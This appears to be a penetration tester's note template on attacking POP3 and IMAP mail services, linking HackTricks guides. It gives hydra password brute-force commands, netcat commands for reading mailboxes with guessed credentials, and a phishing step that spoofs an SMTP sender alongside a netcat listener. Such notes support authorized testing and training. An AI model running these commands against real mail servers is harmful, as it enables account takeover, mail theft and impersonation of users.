 ### POP and IMAP

> [110,995 - Pentesting POP | HackTricks | HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-pop)
> [143,993 - Pentesting IMAP | HackTricks | HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-imap)

If any valid users were identified and POP3/IMAP services are running we might want to guess for simple passwords:

*Note*: In order to perform this bruteforce attack, you will need to strip off the '@domain' part and only use the username.

~~~ad-check
title:IMAP Brute Force
```bash
hydra -L users.txt -P users.txt null -e nsr imap(s)
```

```bash
hydra -L users.txt -P users.txt null -e nsr pop3(s)
```

*Screenshot*
___

___
~~~

If this attack returns valid credentials, we can connect to POP3/IMAP using the following command to access mailboxes to read messages:

~~~ad-check
title:Logging into POP3/IMAP

```bash
nc -nv null 110
USER {user}
PASS {pass}
LIST # show messages
RETR {number} # read message
```

*Screenshot*
___



~~~

~~~ad-note
title:Steps to Reproduce: Phishing Attack
collapse:yes

If there is any indicative of users expecting a link, we can try to launch a phishing attack by accessing SMTP once again and sending a link that points to a listener:

```bash
nc -nv null 25
helo hacker
MAIL FROM: (impersonated user)@domain
RCPT TO: (target user)@domain

```

We start a listener:

```bash
rlwrap nc -nlvp 80
~~~